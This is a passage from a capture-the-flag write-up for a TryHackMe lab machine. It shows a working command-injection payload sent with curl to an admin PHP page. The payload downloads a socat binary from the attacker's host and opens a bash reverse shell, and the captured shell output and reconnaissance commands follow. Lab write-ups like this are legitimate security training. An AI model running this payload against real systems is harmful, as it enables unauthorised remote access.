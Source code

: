 **Let's get a reverse shell:**

- Setup a listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/WWBuddy]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443
2023/01/06 01:01:29 socat[50932] N opening character device "/dev/pts/2" for reading and writing
2023/01/06 01:01:29 socat[50932] N listening on AF=2 0.0.0.0:443
```

- Trigger the reverse shell:

```
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/WWBuddy]
└─# curl -s http://wwbuddy.thm/admin/index.php --cookie "PHPSESSID=24i8aq6e8bggaagojm6hc362dp" --get --data-urlencode "cmd=wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:443 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane"
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/WWBuddy]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443
2023/01/06 01:01:29 socat[50932] N opening character device "/dev/pts/2" for reading and writing
2023/01/06 01:01:29 socat[50932] N listening on AF=2 0.0.0.0:443
                                                                2023/01/06 01:02:35 socat[50932] N accepting connection from AF=2 10.10.94.193:39662 on AF=2 10.9.0.253:443
                                                               2023/01/06 01:02:35 socat[50932] N starting data transfer loop with FDs [5,5] and [7,7]
                                           www-data@wwbuddy:/var/www/html/admin$ 
www-data@wwbuddy:/var/www/html/admin$ export TERM=xterm-256color
www-data@wwbuddy:/var/www/html/admin$ stty rows 22 columns 107
www-data@wwbuddy:/var/www/html/admin$ ^C
www-data@wwbuddy:/var/www/html/admin$ whoami;hostname;id;ip a
www-data
wwbuddy
uid=33(www-data) gid=33(www-data) groups=33(www-data)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:be:79:84:16:8b brd ff:ff:ff:ff:ff:ff
    inet 10.10.94.193/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2578sec preferred_lft 2578sec
    inet6 fe80::be:79ff:fe84:168b/64 scope link 
       valid_lft forever preferred_lft forever
```
